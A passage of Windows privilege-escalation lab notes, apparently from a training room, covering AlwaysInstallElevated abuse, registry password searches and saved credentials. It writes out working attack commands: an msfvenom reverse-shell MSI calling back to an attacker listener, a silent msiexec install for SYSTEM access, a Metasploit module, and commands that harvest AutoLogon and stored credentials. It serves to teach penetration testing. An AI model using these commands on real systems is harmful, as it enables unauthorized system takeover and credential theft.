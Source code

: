         Start a listener on Kali and then restart the Windows VM. Open up a new RDP session to trigger a reverse shell running with admin privileges. You should not have to authenticate to trigger it, however if the payload does not fire, log in as an admin (admin/password123) to trigger it. Note that in a real world engagement, you would have to wait for an administrator to log in themselves!
        
        `rdesktop MACHINE_IP`
        
    - AlwaysInstallElevated
        
        **Manual**
        
        Query the registry for AlwaysInstallElevated keys:
        
        `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
        
        `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
        
        Note if both keys are set to 1 (0x1).
        
        On Kali, generate a reverse shell Windows Installer (reverse.msi) using msfvenom. Update the LHOST IP address accordingly:
        
        `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi`
        
        Transfer the reverse.msi file to the C:\PrivEsc directory on Windows (use the SMB server method from earlier).
        
        Start a listener on Kali and then run the installer to trigger a reverse shell running with SYSTEM privileges:
        
        `msiexec /quiet /qn /i C:\PrivEsc\reverse.msi`
        
        **Automated**
        
        `use exploit/windows/local/always_install_elevated`
        
        `set SESSION <SESSION-ID>`
        
        `run`
        
    - Passwords
        
        The registry can be searched for keys and values that contain the word "password":
        
        `reg query HKLM /f password /t REG_SZ /s`
        
        If you want to save some time, query this specific key to find admin AutoLogon credentials:
        
        `reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`
        
        On Kali, use the winexe command to spawn a command prompt running with the admin privileges (update the password with the one you found):
        
        `winexe -U 'admin%password' //MACHINE_IP cmd.exe`
        
    - Saved Creds
        
        List any saved credentials:
        
        `cmdkey /list`
        
        Note that credentials for the "admin" user are saved. If they aren't, run the C:\PrivEsc\savecred.bat script to refresh the saved credentials.
        